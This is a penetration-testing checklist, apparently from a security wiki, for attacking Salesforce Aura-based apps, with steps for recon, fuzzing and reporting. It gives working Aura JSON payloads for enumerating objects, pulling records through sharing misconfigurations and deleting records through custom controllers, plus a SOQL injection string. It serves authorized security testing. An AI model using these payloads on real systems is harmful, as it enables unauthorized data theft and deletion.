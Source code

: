 # Salesforce SAAS Apps Hacking

### **Preparation Phase**

1. **Gather Tools**
   * Burp Suite or OWASP ZAP
   * HTTP Request/Response Interceptor
2. **Set Up Environment**
   * Configure Burp/ZAP with browser
   * Ensure target Salesforce application is accessible

**Pre-Check**

1. **Identify Salesforce Technologies**
   * Browse application via Burp/ZAP and check HTTP History for paths:
     * `/s/sfsites/aura`
     * `/aura`
     * `/sfsites/aura`
   * In Repeater, make a POST request to the paths and check for response patterns:
     * `"actions":[`
     * `aura:clientOutOfSync`
     * `aura:invalidSession`

### **Reconnaissance**

1. **Identify Standard Objects**
   * Retrieve list of standard objects from Salesforce documentation
   * S[tandard Objects | SOAP API Developer Guide | Salesforce Developers](https://developer.salesforce.com/docs/atlas.en-us.api.meta/api/sforce\_api\_objects\_list.htm)
   * Save to `objects.txt`
2. **Identify Custom Objects**
   * Look for objects ending in `__c`
   * Use `getObjectInfo` and `getHostConfig` actions
   * Add to `objects.txt`
3.  **Identify Standard Controllers and Actions**

    <figure><img src="../../.gitbook/assets/image (229).png" alt=""><figcaption></figcaption></figure>

    * Inspect `app.js` and `aura_prod.js` files
    * Grep for `componentService.initControllerDefs([{` pattern
    * Save identified controllers and actions
4.  **Identify Custom Controllers and Actions**

    * Inspect JS files and HTTP requests
    * Look for custom controllers starting with `apex://`



    ```apex
    STANDARD CONTROLLER:
    aura://RecordUiController/ACTION$getObjectInfo
    CUSTOM CONTROLLER:
    apex://New_Sales_Controller/ACTION$getSalesData
    ```

    * Save identified controllers and actions

### **Fuzzing**

1. **Set Up Fuzzing in Burp/ZAP**
   * Send POST request with Aura endpoint to Repeater
   * Replace `message` parameter with different options
   * Use Intruder to fuzz with `objects.txt`
2. **Fuzzing Actions**
   * `getObjectInfo`
     * Payload: \
       `{"actions":[{"id":"1;a","descriptor":"aura://RecordUiController/ACTION$getObjectInfo","params":{"objectApiName":"***"}}]}`
   * `getConfigData`
     * Payload:\
       &#x20;`{"actions":[{"id":"1;a","descriptor":"aura://HostConfigController/ACTION$getConfigData","params":{}}]}`
   * `getListsByObjectName`
     * Payload:\
       &#x20;`{"actions":[{"id":"1;a","descriptor":"aura://ListUiController/ACTION$getListsByObjectName","params":{"objectApiName":"***"}}]}`

### **Retrieving Sensitive Information**

1. **Check for Org-Wide Sharing Misconfigurations**
   * Use `getItems` action to retrieve records
     * Payload: `{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","params":{"entityNameOrId":"***","layoutType":"FULL","pageSize":100,"currentPage":0}}]}`
   * Use `getRecord` action to retrieve specific records
     * Payload: `{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.detail.DetailController/ACTION$getRecord","params":{"recordId":"***"}}]}`
2. **Check for Custom Controller Misconfigurations**
   * Identify custom actions like `getSalesData` and `deleteSalesDataById`
     * Payload for retrieving data: `{"actions":[{"id":"1;a","descriptor":"apex://New_Sales_Controller/ACTION$getSalesData","params":{}}]}`
     * Payload for deleting data: `{"actions":[{"id":"1;a","descriptor":"apex://New_Sales_Controller/ACTION$deleteSalesDataById","params":{"id":"***"}}]}`

### **SOQL Injection**

1. **Identify Potential Injection Points**
   * Inspect HTTP requests for SOQL queries
2. **Craft Injection Payloads**
   * User input: `name=test%') OR (Name LIKE '`
   * Expected vulnerable query: `SELECT Id FROM Contact WHERE (IsDeleted = false AND Name LIKE '%test%') OR (Name LIKE '%')`

### **Documentation and Reporting**

1. **Document Findings**
   * Note each identified object, controller, and action
   * Record fuzzing results and any sensitive data retrieved
   * Detail any successful SOQL injections and their impact
2. **Create a Comprehensive Report**
   * Executive summary of findings
   * Detailed methodology and steps taken
   * Screenshots and evidence of vulnerabilities
   * Recommendations for remediation

#### **References**

* [Salesforce Review and Certification](https://help.salesforce.com/articleView?id=sf.review\_and\_certification.htm\&type=5)
* [https://infosecwriteups.com/in-simple-words-pen-testing-salesforce-saas-application-part-2-fuzz-exploit-eefae11ba5ae](https://infosecwriteups.com/in-simple-words-pen-testing-salesforce-saas-application-part-2-fuzz-exploit-eefae11ba5ae)
* [Enumerated Salesforce Classes](https://www.enumerated.de/index/salesforce#classes)
* [Standard Objects | SOAP API Developer Guide | Salesforce Developers](https://developer.salesforce.com/docs/atlas.en-us.api.meta/api/sforce\_api\_objects\_list.htm)
